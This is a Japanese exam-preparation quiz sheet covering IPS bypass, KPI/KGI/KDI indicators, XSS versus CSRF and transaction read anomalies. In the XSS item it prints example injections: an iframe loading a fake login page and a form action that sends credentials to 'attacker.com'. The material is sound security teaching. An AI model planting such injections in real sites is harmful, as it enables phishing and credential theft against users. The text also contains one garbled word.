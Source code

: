 
### 【問題】IPS装置を通信経路上にインライン設置する際に、装置の電源断などの深刻な障害が発生した場合でも、内部の物理的なスイッチが作動して通信を迂回させ、最低限の通信継続を確保する機能です。★
- **（解答）** **ハードウェアバイパス機能**
- **（解説）** IPSの障害がネットワーク全体の停止を招くことを防ぐための、いわば「緊急回避路」です。この機能が作動すると、セキュリティ検査は行われなくなりますが、「通信が完全に途delする」という最悪の事態を回避することを優先します。可用性を確保するための重要な機能の一つです。

---

### 【問題】将来の結果に先んじて変動し、未来を予測・コントロールするために用いられる指標と、活動した結果として現れ、過去の実績を確認するために用いられる指標をそれぞれ何と呼びますか。★
- **（解答）** **先行指標 (Leading Indicator) と 遅行指標 (Lagging Indicator)**
- **（解説）** `KPIは将来の成果（KGI）の先行指標として、KGIは過去の活動の結果を示す遅行指標`として位置づけられることが一般的です。例えば、日々の「Webサイトのアクセス数（KPI/先行指標）」を改善することで、将来の「売上高（KGI/遅行指標）」を向上させるという因果関係を捉えます。優れた経営管理とは、この先行指標をコントロールすることで、遅行指標を意図した通りに達成しようとする活動と言えます。

---

### 【問題】KPIをさらに細分化し、CSFを達成するために具体的に「実行すべき行動（Do）」そのものの回数や量に特化して測る指標です。★
- **（解答）** **KDI (Key Do Indicator)**
- **（解説）** KDIは、より現場の「行動」そのものに焦点を当てた指標です。KPIがプロセスの「質」や「結果」（例：受注率）を測るのに対し、KDIは「量」（例：訪問件数）に特化した指標であるという違いがあります。例えば、KPIである「受注率」が目標に達しない場合、その原因を探るために、より基本的な行動レベルである「訪問件数（KDI）」に分解して分析する、といった使われ方をします。

---

### 【問題】正規のWebページ内に、攻撃者が管理する別のWebページ（例：偽のログイン画面）を埋め込んで表示させるために悪用されるHTMLタグと、Webフォームに入力されたデータの送信先URLを攻撃者のサーバに書き換えるために悪用されるHTML属性をそれぞれ何と呼びますか。★
- **（解答）** **`<iframe>` タグ と `form` タグの `action` 属性**
- **（解説）** これらは`<script>`タグを使わない広義のXSS攻撃です。
    *   **`<iframe>` タグ:** `<iframe src="http://attacker.com/fake_login.html">` のように、攻撃者が用意した偽のページを正規サイト内に埋め込むために悪用されます。フィッシングやクリックジャッキング攻撃の踏み台とされます。
    *   **`form action` 属性:** `<form action="http://attacker.com/steal">` のように改ざんすることで、利用者が入力したIDやパスワードを攻撃者のサーバへ直接送信させます。

---

### 【問題】Webサイト自体は正規のままで、ログイン中の利用者に罠リンクをクリックさせることで、利用者の意図しないリクエスト（商品の購入など）をサーバに送信させる攻撃と、XSSとの本質的な違いは何ですか。★
- **（解答）** **`CSRF (クロスサイトリクエストフォージェリ)` との違いは、攻撃の起点が「外部サイト」にあるか「脆弱なサイト内部」にあるかという点です。**
- **（解説）**
    *   **XSS:** 脆弱なサイト**内部**にスクリプトが埋め込まれ、そのサイトを閲覧した利用者が被害に遭います。攻撃者は`利用者のブラウザを操ることができます`。
    *   **CSRF:** 攻撃者は**外部サイト**に罠を仕掛け、利用者の`認証状態を悪用`して、`正規サイトへのリクエストを偽造（フォージェリ）`させます。`攻撃者はサーバからの応答を受け取れません`。
この「攻撃の起点」と「できること」の違いは、応用情報技術者試験で頻出する最重要ポイントです。

---

### 【問題】複数のトランザクションを同時に実行した際に発生しうる問題で、まだ確定していない更新途中のデータを読んでしまう現象と、同じデータを再読込した際に内容が変わってしまう現象をそれぞれ何と呼びますか。★
- **（解答）** **ダーティリード (Dirty Read) と 非再現リード (Non-Repeatable Read)**
- **（解説）**
    *   **ダーティリード:** 他のトランザクションがまだCOMMITしていない（ロールバックされるかもしれない）「汚れた」データを読み込んでしまう現象。最も低い分離レベルで発生します。
    *   **非再現リード:** あるトランザクションが読み込んだ行を、他のトランザクションが**更新**または**削除**することで、再度読み込んだ際に結果が変わってしまう現象です。

---